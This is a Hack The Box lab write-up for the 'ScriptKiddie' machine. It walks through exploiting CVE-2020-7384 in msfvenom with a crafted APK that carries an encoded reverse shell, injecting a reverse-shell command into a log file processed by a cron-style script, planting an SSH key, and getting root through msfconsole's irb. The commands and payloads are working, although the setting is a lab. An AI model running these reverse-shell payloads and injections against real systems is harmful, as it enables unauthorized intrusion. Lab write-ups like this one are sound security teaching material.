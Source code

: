 # Target
| Category          | Details                                                          |
|-------------------|------------------------------------------------------------------|
| 📝 **Name**       | [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie) |  
| 🏷 **Type**       | HTB Machine                                                      |
| 🖥 **OS**         | Linux                                                            |
| 🎯 **Difficulty** | Easy                                                             |
| 📁 **Tags**       | Metasploit, CVE-2020-7384, command injection, irb                |

# Scan
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
```

# Attack path
1. [Gain initial foothold with arbitrary command execution using `msfvenom` .apk handling vulnerability (CVE-2020-7384)](#gain-initial-foothold-with-arbitrary-command-execution-using-msfvenom-apk-handling-vulnerability-cve-2020-7384)
2. [Escalate to `pwn` user using discovered command injection vulnerability in `/home/pwn/scanlosers.sh` script](#escalate-to-pwn-user-using-discovered-command-injection-vulnerability-in-homepwnscanloserssh-script)
3. [Escalate to `root` user using Interactive Ruby Shell in `msfconsole`](#escalate-to-root-user-using-interactive-ruby-shell-in-msfconsole)


### Gain initial foothold with arbitrary command execution using `msfvenom` .apk handling vulnerability ([CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384))

#### Generate malicious .apk which will spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB ScriptKiddie]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
COMMAND=$(echo -n "bash -c \"bash -i &>/dev/tcp/$LHOST/4444 0>&1\"" | base64 -w 0) && \
DNAME="CN='|echo $COMMAND | base64 -d | sh #" && \
touch empty && \
zip -jq app.apk empty && \
keytool -genkey -keystore signing.keystore -alias signing.key -storepass password -keypass password -keyalg RSA -keysize 2048 -dname "$DNAME" > /dev/null 2>&1 && \
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore signing.keystore -storepass password -keypass password app.apk signing.key > /dev/null 2>&1
```

#### Start netcat and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB ScriptKiddie]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Upload malicious .apk
```
┌──(magicrc㉿perun)-[~/attack/HTB ScriptKiddie]
└─$ curl http://$TARGET:5000 \
    -F os=android \
    -F lhost=127.0.0.1 \
    -F template=@app.apk \
    -F action=generate
```

#### Confirm initial foothold gained
```
connect to [10.10.16.5] from (UNKNOWN) [10.129.137.244] 59812
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ id
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

#### Upgrade reverse shell connection to SSH using private key
```
kid@scriptkiddie:~/html$ ssh-keygen -t rsa -b 4096 -f /home/kid/.ssh/id_rsa -N "" && \
cat /home/kid/.ssh/id_rsa.pub >> /home/kid/.ssh/authorized_keys && \
chmod 700 /home/kid/.ssh && chmod 600 /home/kid/.ssh/* &&
cat /home/kid/.ssh/id_rsa
Generating public/private rsa key pair.
Your identification has been saved in /home/kid/.ssh/id_rsa
Your public key has been saved in /home/kid/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:njmvu8KUZuqSzGwxP0+l7H+nJbVAtU++iHpsZuzVL3E kid@scriptkiddie
The key's randomart image is:
+---[RSA 4096]----+
|            .    |
|           . .   |
|          . . .  |
|         .   +   |
|       .S . . o  |
|  o  .=+ o + +..E|
| + = *+ =oo = oo |
|  B +oo  +O+. .. |
| . o.ooo*@+o   ..|
+----[SHA256]-----+
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----
```

Copy & paste generated key to attack machine and use it to connect.
```
┌──(magicrc㉿perun)-[~/attack/HTB ScriptKiddie]
└─$ chmod 600 id_rsa && ssh kid@$TARGET -i id_rsa
<SNIP>
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

### Escalate to `pwn` user using discovered command injection vulnerability in `/home/pwn/scanlosers.sh` script

#### Discover command injection vulnerability
Vulnerability sits in line 7.
```
kid@scriptkiddie:~$ cat -n /home/pwn/scanlosers.sh
     1  #!/bin/bash
     2
     3  log=/home/kid/logs/hackers
     4
     5  cd /home/pwn/
     6  cat $log | cut -d' ' -f3- | sort -u | while read ip; do
     7      sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
     8  done
     9
    10  if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

#### Start netcat and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB ScriptKiddie]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Inject command to spawn reverse shell
```
kid@scriptkiddie:~$ echo "1 1 127.0.0.1; bash -c \"bash -i &>/dev/tcp/10.10.16.5/4444 0>&1\" #" > /home/kid/logs/hackers
```

#### Confirm escalation
```
connect to [10.10.16.5] from (UNKNOWN) [10.129.137.244] 59938
bash: cannot set terminal process group (801): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ 
```

### Escalate to `root` user using Interactive Ruby Shell in `msfconsole`

#### Stabilise shell
```
pwn@scriptkiddie:~$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
pwn@scriptkiddie:~$ export TERM=xterm
export TERM=xterm
```

#### List allowed sudo commands
```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

#### Spawn root shell using `msfconsole` and `irb`
```
pwn@scriptkiddie:~$ sudo msfconsole -q
sudo msfconsole -q
msf6 > irb
irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
▽^[[47;2Rsystem("/bin/sh")
^[[47;1R
>> system("/bin/sh")
# id
id
uid=0(root) gid=0(root) groups=0(root)
```